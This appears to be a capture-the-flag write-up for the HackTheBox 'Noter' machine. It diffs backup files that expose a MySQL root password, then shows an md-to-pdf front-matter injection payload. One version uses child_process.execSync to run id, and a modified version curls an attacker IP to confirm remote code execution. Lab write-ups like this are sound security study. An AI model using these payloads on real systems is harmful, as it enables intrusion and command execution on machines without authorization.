 ### Enumeration on the backup files.

Checking the difference between the  two files.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter/app]
└─$ diff -r -y 1 2 | less 
```
There is a difference in MySQL configurations
```
app.config['MYSQL_USER'] = 'root'                             | app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'                    | app.config['MYSQL_PASSWORD'] = 'DB_password'
```
Also there is directory for attachment in the right hand side file.
```
                                                            > attachment_dir = 'misc/attachments/'
                                                              >
# init MYSQL                                                    # init MYSQL
```

### Vulnerability. 
In a new added directory, there is a `javascript` code which allows the convention of `markdown` files to `pdf`  the vulnerability rises where the first line terminates and a new variable added which contains malicious payloads.
```
┌──(egovridc㉿egovridc)-[~/…/noter/app/2/misc]
└─$ cat md-to-pdf.js 
const { mdToPdf } = require('md-to-pdf');


(async () => {
await mdToPdf({ content: process.argv[2] }, { dest: './misc/attachments/' + process.argv[3] + '.pdf'});
})();
```

[Exploit](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) Original  payload.
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE'; 
```
Modified payload according to our needs.
```
---js\n((require("child_process")).execSync("curl 10.10.14.114:8000/RCE"))\n---RCE

#This works fine in the following format
---js
((require("child_process")).execSync("curl 10.10.14.114:8000/RCE"))
---RCE
```
The above command tries to access the server(Attackers machine) as a child process of the following.
